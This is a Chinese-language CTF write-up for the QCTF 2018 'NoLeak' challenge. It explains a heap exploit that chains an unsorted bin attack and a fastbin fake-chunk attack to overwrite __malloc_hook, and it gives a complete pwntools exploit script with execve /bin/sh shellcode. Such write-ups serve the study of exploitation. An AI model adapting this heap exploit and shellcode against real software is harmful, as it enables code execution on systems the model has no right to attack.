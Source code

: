 ```yaml
---
title: QCTF 2018 NoLeak
date: 2018-07-27 08:37:40
tags: [CTF, PWN]
categories: PWN练习
---
```

# QCTF 2018

## NoLeak wp

​	这道题是一道unsorted bin attack + fastbin attck的题。
	拿到题扔ida一看发现无printf函数无法泄露地址，所以就无法构造system指令执行，checksec看下发现未开nx保护，此时基本可以确定是写shellcode(堆题写shellcode之前没做过)。
	<!--more-->
审下函数发现edit函数检查不全面导致可以修改已经free的chunk的两个指针fd和bk，这里可以利用		unsorted bin的特性，修改free后的unsorted bin中的chunk的fd和bk，使修改的target地址指向unsortedbin中的链表头，由于其载入内存的基地址是一样的，且libc后三个字节是固定的，所以可以通过libc-database识别libc版本并得到函数的offset（题目给了libc库），然后修改target指向的链表头地址的后三个字节，使其指向想要覆盖的got表地址。但是单靠unsortedbin无法直接进行任意地址读写，这里还需要用到fastbin attack（unsorted bin这里可以理解为起到了leak的作用) 构造fake chunk进行任意地址写。

​	攻击者可以通过修改fastbin中freechunk的fd，使其指向一个fake chunk，然后进行一次malloc，第二次malloc就能在指定位置创建chunk了，也就是可以向指定地址写数据。这里需要注意的是当malloc fake chunk的时候 ，*(&(fake chunk)+8) 也就是fake chunk的size大小必须要属于fastbin对应的大小，否则在进行分配的时候glibc会报错。当成功malloc fake chunk后，我们已经能够向指定位置写入数据，这里我们向bss段保存chunk user data段指针的buff写入包含buff自身地址信息的数据，这样利用程序中的update函数我们就能向bss段写入shellcode，然后我们就可以通过覆写got表(__malloc_hook)为指向shellcode的地址来最终get shell。
exp如下:

```
from pwn import *

context(log_level='debug',arch='amd64',os='linux')

p=process('./NoLeak')

def create(size,data):

	p.recvuntil('Your choice :')

	p.sendline('1')

	p.recvuntil('Size: ')

	p.sendline(str(size))

	p.recvuntil('Data: ')

	p.sendline(str(data))

def delete(index):

	p.recvuntil('Your choice :')

	p.sendline('2')

	p.recvuntil('Index: ')

	p.sendline(str(index))

def update(index,size,data):

	p.recvuntil('Your choice :')

	p.sendline('3')

	p.recvuntil('Index: ')

	p.sendline(str(index))

	p.recvuntil('Size: ')

	p.sendline(str(size))

	p.recvuntil('Data: ')

	p.sendline(str(data))

def exit():

	p.recvuntil('Your choice :')

	p.sendline('4')

magic=0x0000000000601040

shellcode=asm(shellcraft.sh())

shellcode='\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

create(0x60,'0000')

create(0x80,'1111') 

create(0x80,'2222') 

delete(1)

update(1,0x10,p64(magic+0x20)*2)

create(0x80,'3333')

delete(0)

update(0,0x8,p64(0x60106d))

create(0x60,'3333')

create(0x60,'aaa'+p64(0x601070)+p64(0x601080))

update(8,1,p64(0x10))

update(6,8,p64(0x601080))

update(9,len(shellcode),shellcode)

p.interactive()
```



​	总结一下这题思路其实很明确，ida中看到没开泄露地址的函数加上nx保护没开所以想到写shellcode，然后想到got表覆写，由于不能直接泄露地址想到可以利用unsorted bin的链表头指针间接泄露基址，找到libc版本库确定要覆盖函数的低三字节，利用fastbin fake chunk attack向堆指针buff区写入一个包含buff自身信息的指针，然后就能向低三字节写入查找到的地址，之后利用update函数在bss段buff区后面写入shellcode，最后再利用update函数向got表写入指向shellcode的指针，当调用malloc函数时由于malloc-hook已经被覆盖，所以能直接跳去执行shellcode。
